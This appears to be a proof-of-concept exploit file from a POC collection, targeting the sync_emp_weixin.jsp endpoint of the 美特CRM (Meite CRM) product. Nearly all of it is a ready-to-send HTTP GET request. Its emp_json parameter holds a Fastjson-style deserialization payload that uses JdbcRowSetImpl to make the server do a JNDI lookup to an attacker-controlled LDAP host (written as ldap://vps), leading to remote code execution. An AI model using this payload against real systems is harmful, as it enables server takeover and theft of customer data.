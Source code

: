 # meiteCRM_sync_emp_weixin_rce

from: https://github.com/wy876/POC/blob/main/%E7%BE%8E%E7%89%B9CRM%E7%B3%BB%E7%BB%9F/%E7%BE%8E%E7%89%B9CRM%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3sync_emp_weixin%E5%AD%98%E5%9C%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E.md
product: 美特CRM

```
GET /weixin/admin/sync_emp_weixin.jsp?emp_json=[{%22@type%22:%22[com.sun.rowset.JdbcRowSetImpl%22[{,%22dataSourceName%22:%22ldap://vps%22,%22autoCommit%22:true}] HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection:close
```
